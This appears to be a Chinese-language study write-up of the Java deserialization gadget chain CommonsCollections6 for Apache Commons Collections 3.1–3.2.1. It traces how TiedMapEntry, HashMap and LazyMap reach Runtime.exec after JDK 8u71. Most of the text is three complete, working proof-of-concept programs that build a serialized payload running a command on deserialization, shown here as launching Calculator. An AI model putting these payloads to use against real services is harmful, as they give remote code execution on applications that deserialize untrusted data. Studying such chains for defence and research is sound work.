








# CommonsCollections6

## 前言

**为什么跳过了`CommonsCollections2`先学习`CommonsCollections6`？**

前面学习的`CommonsCollections`和`CommonsCollections1`链，可以看到都受限于 JDK 版本，在`jdk8u71`之后就无法利用，原因则是前面已经提过的。

而为了实现在高版本 JDK 的环境下依然能利用的问题，`CommonsCollections6`这条链子应运而生。因此在学完`CommonsCollections1`后接着学习`CommonsCollections6`会比较系统。

该条利用链的利用条件如下：

```
CommonsCollections 3.1 - 3.2.1
JDK版本暂无
```

## 利用链

先看一些 p 牛给出的简化利用链：
```java
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashMap.readObject()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
*/
```

在 JDK 8u71 之后，`sun.reflect.annotation.AnnotationInvocationHandler`的`readObject()`方法发生了变化导致无法再触发`LazyMap`类的`get()`方法，而思路自然而然就是再次寻找其他能触发`LazyMap#get()`的地方。在利用链中可以看到最后找到的是`TiedMapEntry`类

跟进查看`TiedMapEntry#hashCode()`方法源码，调用了`this.getValue();`


接着跟进`this.getValue()`方法


可以看到在`getValue()`中调用了`map.get()`方法，并且`map`和`key`都是通过构造函数传入，完全可控，所以可以通过构造传参调用到`LazyMap#get()`，满足了我们的期望。

接下来就是寻找可以调用`TiedMapEntry#hashCode()`，在前面已经学习过的[URLDNS利用链分析](./02-反序列化专区/0-URLDNS利用链/URLDNS利用链.md)章节中，我们已经知道在`HashMap#readObject()`里，`putVal()`方法对`key`进行了`hash()`计算，进而调用传进来的`key`的`hashCode()`的方法。

因此我们只要让`key`为`TiedMapEntry`对象，就可以完成整个攻击链。开始编写初始 POC：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

但运行后却没有弹出计算器，开始找找原因，我们在`LazyMap#get()`方法处打断点，结果发现一共调用了两次`LazyMap#get()`

第一次时进入了 if 方法


第二次时没有进入 if 方法


为什么会调用两次`LazyMap#get()`方法呢？仔细再跟一遍才想起来`HashMap#put()`方法也会调用到`hashcode()`


因此在`expMap.put(tiedMapEntry,"valueTest");`语句时就一次触发了一次`LazyMap#get()`利用链，但因为我们故意制造的`fakeTransformers`所以没有触发命令执行，但是却在这里将`keyTest`添加进了`outerMap`中。


因此在经过反序列化后调用利用链时，再次进行 if 判断时，`keyTest`在`outermap`对象里，跳过了判断进入 else 语句，导致无法触发命令执行。

根据 p 牛的做法就是再写一句`outerMap.remove("keyTest");`将 key 从 `outerMap`中移除，因此最终 POC 为：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove("keyTest");
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```



除了`outerMap.remove()`删除键值对，我们还可以通过替换 key 的方式进行处理。

`HashMap`将键值对存储在了`Node<K,V>[] table`中，并封装在`Node`对象里，其中`Node`是`HashMap`内部的静态类


因此我们首先需要通过反射获取到`table`字段，然后因为我们没有获取到`Node`类，所以之类需要转换为`Object`类型。最后取到数组中的 key 进行替换
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put("aaa","valueTest");
        // 通过反射获取table
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(expMap);
        Object node = array[0];
        Field expMapKey = node.getClass().getDeclaredField("key");
        expMapKey.setAccessible(true);
        expMapKey.set(node, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}

```

**坑点！！！**

如果有同学将 key 取值成`keyTest`，而不是`aaa`时，会发现报错为空


调试了一下，发现如果`key`为`keyTest`字符串时，变成了`array[4]`才能取到我们前面设置的值。


这是为什么呢？继续怀着好奇心调试，发现问题还是在 put 上，可以看到这里对`key`传进了`hash()`方法中进行运算



因此 key 为`aaa`和`keyTest`的值完全不同，导致了最后 i 分别为 0 和 4




因此修改最终 POC为：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        String key = "keyTest";
        expMap.put(key ,"valueTest");
        // 通过反射获取table
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(expMap);
        int h;
        Object node = array[((h=key.hashCode()) ^ (h >>> 16)) & (array.length -1)];
        Field expMapKey = node.getClass().getDeclaredField("key");
        expMapKey.setAccessible(true);
        expMapKey.set(node, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}

```


## ysoserial的做法

接着看看`ysoserial`的实现，给出的利用链为：
```java
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

    by @matthias_kaiser
*/
```

对比前面的，可以发现`ysoserial`采用的是`HashSet`
